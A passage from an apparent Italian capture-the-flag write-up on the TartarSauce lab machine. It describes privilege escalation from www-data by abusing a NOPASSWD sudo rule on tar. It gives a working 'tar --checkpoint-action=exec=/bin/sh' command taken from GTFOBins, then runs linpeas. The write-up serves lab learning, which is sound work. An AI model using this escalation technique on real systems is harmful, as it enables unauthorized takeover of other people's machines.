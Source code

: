 Purtroppo, non ho i privilegi per ottenere il primo flag in quanto sono soltanto un utente web deamon _www-data_.

## Privilege Escalation

Per prima cosa eseguo controllo i privilegi dell'utente attraverso il seguente comando:

```text
sudo -l
```

```text
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Seguendo questa [guida](https://gtfobins.github.io/gtfobins/tar/) utilizzo il seguente comando per elevare i miei privilegi:

```text
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<p align="center">
  <img src="/Immagini/Linux-Box/TartarSauce/tartarsauce-8.png" />
</p>

**Ottengo così il primo flag!**

Per trovare una strada utile per diventare root, trasferisco lo script _leanpeas.sh_ sulla macchina _tartarsauce_ e lo avvio. Dall'output scopro qualcosa di interessante:

<p align="center">
  <img src="/Immagini/Linux-Box/TartarSauce/tartarsauce-9.png" />
</p>
